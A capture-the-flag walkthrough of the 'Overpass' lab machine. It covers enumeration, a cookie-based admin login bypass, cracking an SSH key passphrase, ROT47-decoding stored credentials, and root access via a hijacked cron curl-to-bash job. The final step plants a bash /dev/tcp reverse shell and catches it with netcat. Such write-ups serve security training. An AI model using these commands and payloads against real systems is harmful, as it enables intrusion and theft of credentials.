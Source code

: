 # Overpass

## Enumeration

Start off with an nmap scan that looks like this:

```vim
nmap -Pn -sV -sC -v <IP_ADDR>
```

Your result should look something like this:

```vim
Nmap scan report for 10.10.110.245
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that this is an Ubuntu machine and there is a web server running on it.

Looking at the web server, we see that this is a website about an application called Overpass, which is a password manager made in Golang. I run a feroxbuster against the IP which looks like this:

```vim
feroxbuster -u http://<IP_ADDR> -q -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o overpass.buster
```

I get the following output on `overpass.buster`:

```vim
200      GET       53l      195w     2431c http://10.10.110.245/
301      GET        0l        0w        0c http://10.10.110.245/img => img/
301      GET        0l        0w        0c http://10.10.110.245/downloads => downloads/
301      GET        0l        0w        0c http://10.10.110.245/aboutus => aboutus/
301      GET        2l        3w       42c http://10.10.110.245/admin => /admin/
301      GET        0l        0w        0c http://10.10.110.245/css => css/
301      GET        0l        0w        0c http://10.10.110.245/downloads/src => src/
301      GET        0l        0w        0c http://10.10.110.245/downloads/builds => builds/
```

Here, `/admin` seems to be interesting which isn't publically available, however I decide to look into application first and see if something there is exploitable. In `/downloads/src/overpass.go`, we can find the source code for the application where we see this line of interesting code:

```go
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example
func rot47(input string) string {
...
```

The fabled "military grade" encryption was just ROT47. However, since the application isn't reaching back to the website, it doesn't serve any use to us.

## Exploit

Looking into `/admin` we come across the following in the source code:

```html
...
<script src="[/main.js](view-source:http://10.10.232.143/main.js)"></script>
<script src="[/login.js](view-source:http://10.10.232.143/login.js)"></script>
<script src="[/cookie.js](view-source:http://10.10.232.143/cookie.js)"></script>
</head>
```

The page calls some javascript files, which could be aiding the whole process. `main.js` and `cookie.js` didn't contain anything out of the ordinary but `login.js` seemed to have a major flaw in its code:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Here, after the username and password are sent to `/api/login`, a variable called `statusOrCookie` holds the response for the login request and does a check if the response is `"Incorrect Credentials"` or not. If true, you get denied access, but if false then you get access (This is by setting `statusOrCookie` to the response received from login request).

The problem in this code is that, there is no check on what kind of value the cookie should have. This means that as long as we have a cookie called `SessionToken`, we get access to `/admin`.

Create a cookie called `SessionToken`, leave it blank and put the path as `/` and reload `/admin`. On reload, we should be given access to the admin page where we are greeted with an encrypted ssh private key.

Copy the ssh key to a file called `id_rsa` and run the following:

```vim
ssh2john id_rsa > hash && john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

This should be giving you the password for the ssh private key, which is `james13`. To login to the ssh session, try the following command:

```vim
ssh james@<IP> -i id_rsa
```

This should take you to the home directory of james, and you should find user flag in `user.txt`.

## Priv-Esc

There happens to be a file called `todo.txt` which contains the following:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

This confirms 2 things:
- Overpass has the password of james stored in it (Could be helpful for `sudo -l` )
- There is an automated buildscript working on the machine (Probably crontab)

Lets try the first option first and try to check `sudo -l` :

### Method 1 (Read .overpass and ROT47 decode):

The first method is to read the `.overpass` file in the home directory of james and  perform ROT47 decode on it.

```vim
~/.overpass:
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

ROT47 decode:
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

### Method 2 (Run Overpass):

Run overpass and view all the passwords stored.

```vim
james@overpass-prod:~$ overpass
Welcome to Overpass
Options:
1       Retrieve Password For Service
2       Set or Update Password For Service
3       Delete Password For Service
4       Retrieve All Passwords
5       Exit
Choose an option:       4
System   saydrawnlyingpicture
```

Unfortunately for us, `sudo -l` isn't an option as james cannot run `sudo` so we have to look into crontabs.

### Crontab:

Run `cat /etc/crontab`:

```vim
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

The crontab is probably doing DNS resolution for `overpass.thm` via `/etc/hosts`. Usually you need `sudo` to edit this file, but in this machine, everyone can edit `/etc/hosts`. Do the following change

```vim
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm    #Replace 127.0.0.1 with your IP
# The following lines are desirable for IPv6 capable hosts
...
```

On your machine, make directories called `downloads` and `src` so that we are able to replicate the path in the crontab and add a reverse shell code in `buildscript.sh`

```vim
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Set up `nc -lvnp <PORT>` and a python web server in a directory containing your newly created `downloads` file with the following command `python -m http.server 80`.

In a minute, you should be getting a reverse shell back. Root flag can be found in `root.txt`
